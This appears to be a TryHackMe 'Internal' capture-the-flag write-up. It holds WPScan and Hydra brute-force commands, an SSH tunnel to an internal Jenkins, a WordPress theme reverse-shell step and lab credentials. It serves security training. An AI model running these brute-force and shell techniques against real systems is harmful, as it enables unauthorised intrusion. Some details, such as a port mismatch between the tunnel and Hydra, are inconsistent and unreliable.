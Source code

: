 # THM Internal
![image](https://hackmd.io/_uploads/r1pRAEBo6.png)


## Description
You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

### **Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    User.txt
    Root.txt

Additionally, the client has provided the following scope allowances:

    Ensure that you modify your hosts file to reflect internal.thm
    Any tools or techniques are permitted in this engagement
    Locate and note all vulnerabilities found
    Submit the flags discovered to the dashboard
    Only the IP address assigned to your machine is in scope

**(Roleplay off)**

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

## Recon

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/phpmyadmin
```

```
Wordpress version
5.4.2

Operating System
Ubuntu

User : admin


```
![image](https://hackmd.io/_uploads/HkcmQrrjp.png)

## Scanning

WPScan

Using wpscan to bruteforce the passwords.

`wpscan --url http://internal.thm/wordpress -U admin -P /path/to/rockyou`

Password :my2boys

## Initital Access

Using the password to gain access. By default wordpress theme can be abuse by putting php reversehell. 

`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

![image](https://hackmd.io/_uploads/B1cn5HHsp.png)


## Gaining User

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```
![image](https://hackmd.io/_uploads/B1VCsHBjp.png)

```
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

## Privilege Escalation
```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Given the Jenkins service are up. Can check using netstat.

Need to do port forwarding (idk how to call it).

`ssh -L 9089:172.17.0.2:8080 aubreanna@internal.thm`


![image](https://hackmd.io/_uploads/HJJEABBoT.png)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"```

Bruteforce to gainusername and password..

Use the same method in wordpress to gain RCE. This time use groovy script.
```
```
Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

## Learning
Bruteforce Jenkins
Escalate Docker
Port Forwarding. 







